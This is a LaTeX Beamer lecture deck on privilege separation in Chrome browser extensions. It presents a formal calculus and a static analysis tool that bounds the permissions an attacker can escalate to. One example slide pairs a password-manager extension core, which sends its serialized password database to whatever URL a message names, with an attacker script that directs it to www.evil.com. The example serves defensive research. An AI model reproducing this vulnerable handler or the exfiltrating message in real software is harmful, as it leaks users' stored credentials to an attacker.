\documentclass[11pt]{beamer}
\usetheme{Warsaw}
\mode<presentation>{}
\usepackage[utf8]{inputenc}
\usepackage[english]{babel}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{listings}
\usepackage{todonotes}
\usepackage{lmodern}
\usepackage{infer}
\usepackage{tabularx}
\usepackage{multirow}

\author{Enrico Steffinlongo}
\title{Privilege separation in browser architectures}
\institute[Universities Here and There] % (optional)
{
  Università Ca' Foscari - Computer science
}
%\date{}


%\setbeamercovered{transparent} 
\setbeamertemplate{navigation symbols}{} 
%\logo{} 
%\institute{} 
%\date{} 
%\subject{} 

\defbeamertemplate*{footline}{shadow theme}
{%
  \leavevmode%
  \hbox{\begin{beamercolorbox}[wd=.5\paperwidth,ht=2.5ex,dp=1.125ex,leftskip=.3cm plus1fil,rightskip=.3cm]{author in head/foot}%
    \hfill\insertshortauthor
  \end{beamercolorbox}%
  \begin{beamercolorbox}[wd=.5\paperwidth,ht=2.5ex,dp=1.125ex,leftskip=.3cm,rightskip=.3cm plus1fil]{title in head/foot}%
    \usebeamerfont{title in head/foot}\insertshorttitle\hfill\insertframenumber\,/\,\inserttotalframenumber%
  \end{beamercolorbox}}%
  \vskip0pt%
}

% basics
\newcommand{\names}{\mathcal{N}}
\newcommand{\vars}{\mathcal{V}}
\newcommand{\perms}{\mathcal{P}}
\newcommand{\refs}{\mathcal{R}}
\newcommand{\caller}{\mathbf{caller}}

\renewcommand{\vec}[1]{\overrightarrow{#1}}
\newcommand{\subst}[2]{[#1/#2]}
\newcommand{\overwrite}[2]{[#1 \mapsto #2]}
\newcommand{\xra}[1]{\xrightarrow{#1}}
\newcommand{\xRa}[1]{\xRightarrow{#1}}
\newcommand{\hra}{\hookrightarrow}
\newcommand{\fv}{\mathit{fv}}
\newcommand{\fn}{\mathit{fn}}
\newcommand{\fnfv}{\mathit{fnfv}}
\newcommand{\map}[3]{#1 \stackrel{#2}{\mapsto} #3}
\newcommand{\dom}{\mathit{dom}}
\newcommand{\defined}[1]{#1\!\downarrow\ }

\newcommand{\powerset}[1]{2^{#1}}
\newcommand{\jm}{\mathcal{J}}
\newcommand{\fvbv}{\mathit{vars}}

\newenvironment{mcases}[0]{\begin{list}{{\em Case}}{\leftmargin 5pt}}{\end{list}}

% permission
\newcommand{\join}{\sqcup}
\newcommand{\meet}{\sqcap}
\newcommand{\compl}[1]{#1^*}

% values
\newcommand{\lam}[2]{\lambda #1.#2}
\newcommand{\rec}[1]{\{#1\}}
\newcommand{\unit}{\mathbf{unit}}
\newcommand{\true}{\mathbf{true}}
\newcommand{\false}{\mathbf{false}}
\newcommand{\str}[1]{``\mathit{#1}''}
\newcommand{\undef}{\mathbf{undefined}}

% expressions
\newcommand{\letexpr}[3]{\mathbf{let}\ #1 = #2\ \mathbf{in}\ #3}
\newcommand{\appl}[2]{#1\, #2}
\newcommand{\op}{\mathit{op}}
\newcommand{\cond}[3]{\mathbf{if}\ (#1)\ \{\ #2\ \}\ \mathbf{else}\ \{\ #3\ \}}
\newcommand{\while}[2]{\mathbf{while}\ (#1)\ \{\ #2\ \}}
\newcommand{\lookup}[2]{#1[#2]}
\newcommand{\store}[3]{#1[#2] = #3}
\newcommand{\delete}[2]{\mathbf{delete}\ #1[#2]}
\newcommand{\err}{\mathbf{err}}
\newcommand{\newref}[2]{\mathbf{ref}_{#1}\ #2}
\newcommand{\deref}[1]{\mathbf{deref}\ #1}
\newcommand{\setref}[2]{#1 = #2}
\newcommand{\send}[3]{\overline{#1} \langle #2 \triangleright #3 \rangle}
\newcommand{\checkperms}[2]{\mathbf{check}(#1,#2)}
\newcommand{\acquire}[1]{\mathbf{acquire}(#1)}
\newcommand{\release}[1]{\mathbf{release}(#1)}
\newcommand{\register}[3]{\mathbf{register}(#1,#2,#3)}
\newcommand{\exercise}[1]{\mathbf{exercise}(#1)}
\newcommand{\self}{\mathbf{self}}

\newcommand{\match}[2]{\mathbf{match}\ #1\ \mathbf{with}\ \{#2\}}
\newcommand{\checkp}[3]{\mathbf{check}(#1)\ \mathbf{then}\ #2\ \mathbf{else}\ #3}

% components, systems and states
\newcommand{\handler}[5]{#1(#2 \triangleleft #3:#5).#4}
\newcommand{\inst}[3]{#1\{\!|#2|\!\}_{#3}}
\newcommand{\para}[2]{#1 \parallel #2}
\newcommand{\sys}[3]{#1;#2;#3}

\newcommand{\ctx}[2]{#1\langle #2\rangle}
\newcommand{\labcall}[4]{\langle #1:#2,#3:#4 \rangle}
\newcommand{\labex}[3]{#1:#2 \gg #3}

% misc
\newcommand{\lambdaJS}{\lambda_{\mathsf{JS}}}
\newcommand{\irule}[1]{({\sc #1})}

% flow logic
\newcommand{\labs}{{\mathcal L}}
\newcommand{\absenv}{\hat{\Gamma}}
\newcommand{\absflow}{\hat{\phi}}
\newcommand{\absnet}{\hat{\Phi}}
\newcommand{\absvalues}{\hat{V}}
\newcommand{\absmem}{\hat{\mu}}
\newcommand{\abscache}{\hat{\Phi}}
\newcommand{\absassert}{\hat{L}}
\newcommand{\forms}{\Phi}
\newcommand{\terms}{\mathcal{T}}

\newcommand{\absop}{\widehat{\op}}
\newcommand{\abseq}{\widehat{eq}}
\newcommand{\absget}{\widehat{get}}
\newcommand{\absset}{\widehat{set}}
\newcommand{\absdel}{\widehat{del}}

\newcommand{\dontcare}{\diamond}
\newcommand{\abscaller}{\widehat{\caller}}
\newcommand{\msg}{\mathbb{M}}
\newcommand{\abself}{\widehat{\self}}
\newcommand{\absform}[1]{\langle #1 \rangle}
\newcommand{\hasperm}[2]{#1\ \mathsf{has}\ #2}
\newcommand{\ltrue}{\mathsf{true}}
\newcommand{\lacquire}[3]{#1 \uparrow #2,#3}
\newcommand{\lrelease}[3]{#1 \downarrow #2,#3}
\newcommand{\abstrue}{\true}
\newcommand{\absfalse}{\false}
\newcommand{\absunit}{\unit}
\newcommand{\absundef}{\undef}
\newcommand{\absrec}[1]{\langle\!| #1 |\!\rangle}
\newcommand{\abslam}[2]{\lambda #1^{#2}}
\newcommand{\absfuns}{\Lambda}

\newcommand{\absC}{{\cal C}}

% debundling
\newcommand{\avail}[1]{\mathit{Avail}_{#1}}
\newcommand{\req}[1]{\mathit{Req}_{#1}}
\newcommand{\psubst}[3]{[#1/#2]@#3}
\newcommand{\unbundle}[3]{#1 \rhd_{#2}\, #3}
\newcommand{\absE}{{\cal E}}
\newcommand{\rewrite}[1]{\succ #1}

% escalation
\newcommand{\abstack}{\hat{\Upsilon}}
\newcommand{\escalate}[1]{\,\gg #1}
\newcommand{\despite}[1]{\ \mathbf{despite}\ #1}
\newcommand{\permsleak}[1]{\mathit{Leak}_{#1}}

%other mine
\newcommand{\vat}[0]{\hat{v}}
\newcommand{\ljs}{$\lambda_{JS}$}

\begin{document}

\begin{frame}
\titlepage
\end{frame}

%\begin{frame}
%\listoftodos
%\end{frame}

%\begin{frame}
%\tableofcontents
%\end{frame}

%\section{Intro}
%%\subsection{Browser extensions}
\begin{frame}{Browser Extensions}
Web browsers extensions are phenomenally popular.
\begin{itemize}
\item roughly 30\% of Firefox users have at least one add-on
\end{itemize}
Extensions customize the user experience of the browser
\begin{itemize}
\item Customize the user interface
\item Adds lots of functionality to the browser (e.g., save and restore tabs)
\item Protect users from certain contents of the web pages 
\end{itemize}
\end{frame}

\begin{frame}{Browser Extensions}
Extensions need to interact with
\begin{itemize}
\item Web pages DOM
\item Browser API (browser storage, cookie jar, \dots)
\end{itemize}
Potential security problem!
\begin{itemize}
\item Browser API $\Rightarrow$ security critical operations\\
\item Web interaction $\Rightarrow$ Untrusted and potentially malicious\\
\end{itemize}
\end{frame}

%\subsection{Chrome Extension}

\begin{frame}{Chrome extensions architecture}
\begin{columns}[T]
\begin{column}{.48\textwidth}
Chrome extension architecture forces developers to adopt three practices
\begin{enumerate}
\item Privilege separation
\item Least privilege
\item Strong isolation
\end{enumerate}
\end{column}%
\begin{column}{.48\textwidth}

\includegraphics[scale=0.25]{Images/StrongIsolation.png}
\end{column}%
\end{columns}
\end{frame}

\begin{frame}{Privilege separation}
\begin{itemize}
\item Content scripts
\begin{itemize}
\item Are injected to each page (multiple instances)
\item Access the DOM of the page
\item Cannot use privileges other than the one used to send messages to the Extension Core
\end{itemize}
\item Extension Core
\begin{itemize}
\item Has a single instance for each browser session
\item Has no access to DOM of pages
\item Can use privileges defined statically in the manifest
\end{itemize}
\end{itemize}
\end{frame}

\begin{frame}{Least privilege}
An extension has a limited set of permissions defined statically in the manifest
\begin{itemize}
\item An extension cannot use more than required permissions
\item Users have to agree with the required permissions at install time
\item Attacker cannot use more than such set of privileges
\end{itemize}
\end{frame}

\begin{frame}{Strong isolation}
All components of the extension have different address spaces except content scripts that can read and modify the DOM of the page on which are injected. So an infected component cannot
\begin{itemize}
\item alter content of variables of other components
\item invoke or alter functions defined in other components.
\end{itemize}

Communication between Extension Core and Content Scripts is only via message passing:
\begin{itemize}
\item Messages exchanged can only be strings (Objects are marshaled using a JSON serializer)
\end{itemize}
\end{frame}

%\begin{frame}{Isolated worlds}
%\begin{columns}[T]
%\begin{column}{.62\textwidth}
%\begin{itemize}
%\item Content script and web pages has different memory spaces
%\item Only standard DOM fields are shared
%\end{itemize}
%A potentially malign web page cannot:
%\begin{itemize}
%\item alter the content of variables of the content script
%\item invoke or share function with the content script
%\end{itemize}
%\end{column}%
%\begin{column}{.33\textwidth}
%
\includegraphics[scale=0.28]{Images/IsolatedWorlds.png}
%\end{column}%
%\end{columns}
%\end{frame}

\begin{frame}[fragile]{Example}
\begin{columns}[T]
\begin{column}{.48\textwidth}
Content script 1:
\begin{tiny}
\begin{lstlisting}
chrome.runtime.sendMessage(
    {tag: "req", site: "www.google.com"});
\end{lstlisting}
\end{tiny}
Content script 2:
\begin{tiny}
\begin{lstlisting}
chrome.runtime.sendMessage(
    {tag: "sync", 
    site: "www.password1.com"});
\end{lstlisting}
\end{tiny}
Attacker:
\begin{tiny}
\begin{lstlisting}
chrome.runtime.sendMessage(...);
chrome.runtime.sendMessage(
    {tag: "req", site: "www.google.com"});
chrome.runtime.sendMessage(
    {tag: "sync", site: "www.evil.com"});
\end{lstlisting}
\end{tiny}
\end{column}
\vrule{}
\begin{column}{.48\textwidth}
Extension Core:
\begin{tiny}
\begin{lstlisting}
chrome.runtime.onMessage.addListener(
  function (msg, sender, sendResp) {
    if (msg.tag == "req") {
      var u = DB.getUser(msg.site);
      var p = DB.getPwd(msg.site);
      sendResp({"user": u, "pwd": p});
    }
    else if (msg.tag == "sync") {
      var db = DB.serialize();
      xmlhttp.open("GET", msg.site + db);
      xmlhttp.send();
    }
    else
      console.log ("Invalid message");
  });
\end{lstlisting}
\end{tiny}
\end{column}
\end{columns}
\end{frame}


\begin{frame}{LambdaJS (Brown university\cite{LambdaJS})}
\begin{columns}[T]
\begin{column}{.48\textwidth}
JavaScript:
\begin{itemize}
\item Complex language
\item Lots of constructs
\item unconventional semantics.
\end{itemize}
Very complex to analyze!
\end{column}
\begin{column}{.50\textwidth}

\includegraphics[scale=0.42]{Images/LambdaJS.PNG}
\end{column}
\end{columns}\vspace{0.5cm}

\ljs\cite{LambdaJS} is a core calculus made by Brown university designed specifically to ``desugar'' JavaScript
\begin{itemize}
\item Few constructs
\item Standard $\lambda$-style semantics
\item Not a sound approximation of JavaScript
\item Tests on ``desugared'' files shows that its the semantic coincide with JavaScript
\end{itemize}
Easy to analyze!
\end{frame}

\begin{frame}{The calculus}
\ljs++ is an extension of \ljs. It adds specific constructs for communications in privilege-separated architectures. Its components are:

\begin{itemize}
\item Constants: $c ::= \mathit{num} ~|~ \mathit{str} ~|~ \mathit{bool} ~|~ \unit ~|~ \undef$
\item Values: $v ::= n ~|~ x ~|~ c ~|~ r_{\ell} ~|~ \lam{x}{e} ~|~ \rec{\vec{str_i:v_i}}$
\item Expressions: classical lambda calculus construct, operations on objects and on references, $e ::= \dots |~ \newref{\ell}{e} ~|~ \send{e}{e}{\rho} ~|~ \exercise{\rho}.$
\item Memories: $\mu ::= \emptyset ~|~ \mu, \map{r_{\ell}}{\rho}{v}$
\item Handlers: $h ::= \emptyset ~|~ h,\handler{a}{x}{\rho}{e}{\rho'}$
\item Instances: $i ::= \emptyset ~|~ i,\inst{a}{e}{\rho}$
\item System: $s = \sys{\mu}{h}{i}$
\end{itemize}
\end{frame}

\begin{frame}{Judgments}
For the analysis we used the Flow logic \cite{FlowLogic} approach.
\begin{itemize}
\item All values are abstracted assuming a pre-order relation $\sqsubseteq$.
\item We do not fix any specific representation of the abstract domains
\item Abstract environment $\absC=\absenv ; \absmem ; \abstack ; \absnet$
% is a four-tuple made of the following components:
%$$
%\begin{array}{llcl}
%\mathit{Abstract\ variable\ environment} & \absenv & : & \vars \cup \absfuns \rightarrow \absvalues \\
%\mathit{Abstract\ memory} & \absmem & : & \labs \times \perms \rightarrow \absvalues \\
%\mathit{Abstract\ stack} & \abstack & : & \names \times \perms \rightarrow \perms \times \perms \\
%\mathit{Abstract\ network} & \absnet & : & \names \times \perms \rightarrow \absvalues.
%\end{array}
%$$
\end{itemize}
Each judgment of our specification has the form: 
\begin{itemize}
\item $\absC \Vdash_\rho v \rightsquigarrow \hat{v}$
\item $\absC  \Vdash_\rho e: \hat{v} \escalate{\rho'}$
\item $\absC \Vdash \mu \despite{\rho}$, $\absC \Vdash h \despite{\rho}$, 
$\absC \Vdash i \despite{\rho}$, $\absC \Vdash s \despite{\rho}$.
\end{itemize}
\end{frame}

\begin{frame}{Judgment example}
$$\inferrule*[width=10em,lab=(PE-Cond)]
{\absC \Vdash_{\rho_s} e_0: \hat{v}_0 \escalate{\rho_0} \sqsubseteq \rho \\
\abstrue \in \hat{v}_0 \Rightarrow \absC \Vdash_{\rho_s} e_1: \hat{v}_1 \sqsubseteq \hat{v} \escalate{\rho_1} \sqsubseteq \rho \\
\absfalse \in \hat{v}_0 \Rightarrow \absC \Vdash_{\rho_s} e_2: \hat{v}_2 \sqsubseteq \hat{v} \escalate{\rho_2} \sqsubseteq \rho}
{\absC \Vdash_{\rho_s} \cond{e_0}{e_1}{e_2}: \hat{v} \escalate{\rho}}$$
\end{frame}

\begin{frame}{Theorem}
\begin{itemize}
\item[] Permission leak against $\rho: \; \permsleak{\rho}(\absC)$ is a sound over-approximation of the permissions which can be escalated by the opponent $\rho$ in an initial system with arbitrary long call chains.
\item[] The main point of the analysis is this theorem:
\item[]
\begin{center}
\begin{tabular}{|l|}
\hline
Let $s = \mu;h;\emptyset$.\\If $\absC \Vdash s \despite \rho$,then\\$s$ is $\rho'$-safe despite $\rho$ for $\rho' = \permsleak{\rho}(\absC)$. \\
\hline
\end{tabular}
\end{center}
\item[] This gives us statically an over-approximation of all permissions that an opponent can escalate to if it attacks an extension. 
\end{itemize}
\end{frame}

%%\subsection{Implementation}

\begin{frame}{Implementation steps}
\begin{enumerate}
\item The analysis is turned in a Verbose approach (it saves all expressions values in a Cache),
\item The analysis of a program is turned in a finite set of constraints,
\item Starting from the set of constraints an acceptable solution is computed.
\end{enumerate}
\end{frame}

\begin{frame}{Tool}
We developed a tool written in F\# to perform the analysis. In the analysis we:
\begin{enumerate}
\item add the chrome API definition as prelude to each source
\item desugar the source with prelude using the desugaring tool \cite{LambdaJS}
\item parse the desugared file using lex/yacc
%\item alpha-rename all variables to avoid clashing since the analysis is context-insensitive
%\item add unambiguous labels $\alpha$ on nodes in the AST ($e \Rightarrow e^\alpha$)
\item generate the constraints for the AST
\item solve the constraints using a worklist algorithm.
\end{enumerate}
To increase precision of the analysis we also alpha-rename variables to avoid clashing since the analysis is context-insensitive.
\end{frame}
\newcommand{\absCV}{\mathcal{CV}}
\newcommand{\cenvs}{\absCV}
\newcommand{\Cat}[0]{\absCV_{\hat{C}}}
\newcommand{\muat}[0]{\absCV_{\hat{\mu}}}
\newcommand{\Env}[0]{\absCV_{\hat{\Gamma}}}
\newcommand{\Pat}[0]{\absCV_{\hat{P}}}
\newcommand{\Phiat}[0]{\absCV_{\hat{\Phi}}}
\newcommand{\Upsat}[0]{\absCV_{\hat{\Upsilon}}}
\newcommand{\ccest}[1]{\cenvs \Vdash_{cv, \rho_s} #1}
\newcommand{\ccestl}[1]{\cenvs \Vdash_{cv, \rho_s} {(#1)}^{\alpha}}
\newcommand{\lbt}[1]{{e_#1}^{\alpha_#1}}
\newcommand{\all}{\alpha}

%\begin{frame}{Compositional verbose}
%
%\begin{tiny}
%Example (if statement)
%\begin{tabular}{l l}%
%[\textit{CV-Cond}]&$\ccestl{\cond {\lbt 0} {\lbt 1} {\lbt 2}} $ iff\\
%&$\quad \ccest {\lbt 0} \wedge $\\
%&$\quad \Pat(\all_{0}) \sqsubseteq \Pat(\all) \wedge$ \\
%&$\quad \widehat{\true} \in \Cat(\all_0) \Rightarrow$\\
%&$\qquad\ccest {\lbt 1} \wedge \Cat(\all_1) \sqsubseteq \Cat(\all)\wedge$\\
%&$\qquad\Pat(\all_1) \sqsubseteq \Pat(\all) \wedge$ \\
%&$\quad \widehat{\false} \in \Cat(\all_0) \Rightarrow$\\
%&$\qquad\ccest {\lbt 2} \wedge \Cat(\all_2) \sqsubseteq \Cat(\all) \wedge$\\
%&$\qquad\Pat(\all_2) \sqsubseteq \Pat(\all)$ \\
%\end{tabular}
%\end{tiny}
%\end{frame}
\newcommand{\genl}[1]{\mathcal{C}_{*\rho_s}\llbracket (#1)^\all \rrbracket}
\newcommand{\gen}[1]{\mathcal{C}_{*\rho_s}\llbracket (#1) \rrbracket}
\newcommand{\Cel}{\mathsf{C}}
\newcommand{\Rel}{\mathsf{\Gamma}}
\newcommand{\Pel}{\mathsf{P}}
\newcommand{\Mel}{\mathsf{M}}
\newcommand{\El}{\mathsf{E}}
\newcommand{\Upsel}{\mathsf{\Upsilon}}
\newcommand{\Phiel}{\mathsf{\Phi}}
\newcommand{\braces}[1]{\{ #1 \} }
\newcommand{\parens}[1]{\( #1 \) }

\begin{frame}{Compositional Verbose}
The translation from the Succinct approach to the Verbose one is made adding:
\begin{enumerate}
\item unambiguous labels $\alpha \in A$ to each expression: $e \Rightarrow e^\alpha$;
\item a Cache to the environment that stores all the partial results of each expression: $\mathit{Abstract\ cache} \quad \hat{C} : A \rightarrow \hat{V}$;
\item a Permission Cache to the environment that stores permissions used by each expression: $\mathit{Abstract\ permission} \quad \hat{P} : A \rightarrow \rho$.
\end{enumerate}
\end{frame}

\begin{frame}{Constraint definition}
Constraints have this form:
\[
\begin{array}{lcrcll}
c & ::= &\{\vat\} & \sqsubseteq & \El & \mathit{Term\ inclusion}\\
& | & \El & \sqsubseteq & \El & \mathit{Element\ inclusion} \\
& | & \widehat{Op}(\vec{\El_i}) & \sqsubseteq & \El & \mathit{Operation\ inclusion}\\
& | & c & \Rightarrow & c & \mathit{Implication}\\
\end{array}
\]
\begin{itemize}
\item[] Where $\El$ is an index of the environment (e.g., $\Rel(x)$).
\item[] Constraints are generated from the program, and when they are created, they can be solved without the AST.
\item[] Example: $\{\true\}\sqsubseteq \Cel(\all)$ means that $\true$ is in the possible estimate of the node marked with $\all$;
\end{itemize}
\end{frame}

%\begin{frame}{Constraint generation}
%output
%\end{frame}

\begin{frame}{Abstract domains}
As abstract domains for pre-values we used:
\begin{itemize}
\item Signs $\oplus, \ominus, 0$ for numbers,
\item Prefix for strings as described in \cite{StringAbstraction},
\item Mapping from abstract strings to abstract values,
\item All finite domains are abstracted in themselves.
\end{itemize}
An abstract value is a set of abstract pre-value.
\end{frame}

\begin{frame}{Worklist algorithm}
Constraints can be solved together with the abstract domains definition using an existing fix-point constraint solver such as:
\begin{itemize}
\item ALFP succinct solver\cite{SuccinctSolver};
\item BANE constraint solver (from Berkeley university);
\item Z3 solver (from Microsoft research)
\item worklist algorithm described in Principle of Programming Analysis \cite{PrincipleProgramAnalysis}.
\end{itemize}

We decided to use a custom implementation of the worklist algorithm.
\end{frame}

\begin{frame}{Performance}
We developed various version of the worklist algorithm in order to increase the performances. We used
\begin{itemize}
\item a generalized version of the simple worklist algorithm,
\item a more sophisticate implementation of the constraint generator that joins the implication constraint with same precondition,
\item an optimized version of both constraints generator and solver based on lazy constraint generation.
\end{itemize}

Benchmarks:
\begin{center}
\begin{tabular}{|l|c|c|c|}
\hline
Number of nodes & Base & Optimized & Lazy\\
\hline
6268 & 8646.43 s & 4171.89 s & 0.94 s\\
\hline
9111 & 12974.89 s & 6050.89 s & 6.98 s\\
\hline
13075 & 29944.29 s & 20334.26 s & 12.21 s\\
\hline
20134 & 160845.38 s & 29206.74 s & 136.35 s\\
\hline
\end{tabular}
\end{center}

%generate and solve preciso
%generate and solve sfigato
%generate and solve tricky
%generate and solve lazy
\end{frame}

%\section{Conclusion}
\begin{frame}{Conclusion}
In this work we developed:
\begin{itemize}
\item an analysis of a Chrome extension,
\item a tool for checking real extensions.
\end{itemize}

The tool:
\begin{enumerate}
\item takes a real chrome extension,
\item analyzes it,
\item gives a static sound approximation of permissions that an opponent can escalate to.
\end{enumerate}
\end{frame}

%\subsection{Future works}
\begin{frame}{Future works}
\begin{itemize}
\item Automatic correction of bundled extensions in order to debundle themselves preserving their functionality.
\item Generalization of the analysis in order to check other similar architectures (e.g., Firefox).
\end{itemize}
\end{frame}

\begin{frame}
\begin{center}
{\Large \textbf{Questions?}}
\end{center}
\end{frame}

\begin{frame}
\begin{center}
{\Large \textbf{Thank you!}}
\end{center}
\end{frame}

\begin{frame}{References}
\begin{tiny}
\bibliographystyle{plain}
\bibliography{../bibliography}
\end{tiny}
\end{frame}

\end{document}
